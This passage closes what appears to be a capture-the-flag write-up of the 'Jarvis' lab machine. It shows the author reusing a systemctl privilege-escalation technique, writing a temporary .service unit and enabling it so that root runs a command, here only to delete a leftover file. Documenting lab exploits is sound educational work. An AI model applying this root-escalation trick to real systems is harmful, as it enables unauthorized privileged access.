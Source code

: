<p>Victory! With that Jarvis is in the books.</p>

<h1>Post Root Cleanup</h1>

<p>I wouldn't be a good fellow hacker if I just left the root flag laying around like that. Once completed I reran the systemcl exploit changing the command to clean up after myself.</p>

{% highlight shell %}
pepper@jarvis:/tmp$ TF=$(mktemp).service
pepper@jarvis:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "rm /tmp/output1"
> [Install]
> WantedBy=multi-user.target' > $TF
pepper@jarvis:/tmp$ systemctl link $TF
Created symlink /etc/systemd/system/tmp.s6W7MgAVfQ.service → /tmp/tmp.s6W7MgAVfQ.service.
pepper@jarvis:/tmp$ systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.s6W7MgAVfQ.service → /tmp/tmp.s6W7MgAVfQ.service.
pepper@jarvis:/tmp$ ls -latr
{% endhighlight %}

<p>Thanks folks. Until next time.</p>
